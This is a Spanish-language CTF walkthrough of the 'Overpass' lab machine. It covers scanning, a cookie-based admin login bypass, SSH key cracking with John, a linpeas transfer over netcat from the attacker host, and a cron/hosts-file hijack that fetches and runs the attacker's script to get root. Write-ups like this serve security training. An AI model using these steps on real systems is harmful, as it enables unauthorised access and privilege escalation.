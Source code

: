 # Overpass

Security, Owasp top 10, Cron. (#nmap, #nikto, #gobuster, #session #javascript, #curl, #ssh2python.py, #linpeas.sh, #upload_file_nc.sh )

## Tabla de contenido

- [Enumeración](#Enumeración).
- [Web Site](#Web-Site).
- [Shell](#Shell). 
--------------------------------
### Enumeración
-------------------------------
Hacemos una revisión general:
```plain
nmap -sC -sV -oN nmap/initial 10.10.428.51
```

* -oN: Guardar el sondeo en formato normal.
* -sC: Realizar análisis con los scripts por defecto.
* -sV: Detección de la versión de servicios.
--------------------------------
### Web Site
---------------------------------
Escaneo Web:

```plain
nikto -h "http://10.10.248.51/" | tee nikto.log
```
Fuerza bruta a directorios: 
```plain
gobuster dir -u http://10.10.248.51 -w /usr/share/wordlists
```
Localizado login en la página http://10.10.248.51/admin, analizando el archivos login.js.

```plain
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
Se aprecia el SessionToken, dentro del flag no le asigna valor si tiene credenciales incorrectas entonces probamos:
```
curl "http://10.10.248.51/admin/" --cookie "SessionToken=anything"
```
--------------------------------
### Shell
-------------------------------
Obtenemos una key, para descifrar la contraseña del key utilizamos jhon ripper.
```
wget https://raw.githubusercontent.com/koboi137/john/bionic/ssh2john.py
sudo chmod +x ssh2python.py
./ssh2python.py idrsa > res_idrsa
```
Utilizamos fuerza bruta para poder descifrar la contraseña de la key:
```
john --wordlist=/usr/share/wordlists/rockyou.txt res_idrsa
```
Asignamos los permisos correspondientes:
```
chmod 600 idrsa
```
Nos logueamos 
```
ssh -i idrsa james@10.10.248.51
```
Creamos el script upload_file_nc.sh para cargar el linpeas.sh
```
nano upload_file_nc.sh
chmod +x upload_file_nc.sh /dev/shm/linpeas.sh
cd /dev/shm/
file linpeas.sh
chmod +x linpeas.sh
./upload_file_nc.sh /dev/shm/linpeas.sh
```
> Desde la pc víctima

Ejecutamos el script linpeas para buscar fallas en la configuración, permisos, etc con la finalidad de escalar privilegios.
```
nc 10.10.68.216 8666 > linpeas.sh
./linpeas.sh
```
Encontramos que podemos editar el archivo hosts donde colocaremos nuestro ip para que resuelva el ping a través de nosotros.
```
ls -la /etc/hosts
nano /etc/hosts
    127.0.0.1 localhost
    127.0.1.1 overpass-prod
    10.8.0.214 overpass.thm
ping overpass.thm
```
> Desde nuestra pc

Creamos nuestro directorio con nuestro buildscript.sh y levantamos nuestro servicio http.
```
mkdir -p downloads/src/
nano buildscript.sh
sudo python -m SimpleHTTPServer 80
```

> Desde la pc víctima

Trackeamos la consola, ya que está resolviendo por nuestra ip, generando un get a nuestro buildscript ejecutándolo.

```
watch ls -la /bin/bash
    -rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
    -rwxr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

Finalmente accedemos al root:

```
/bin/bash -p
whoami
    root
```
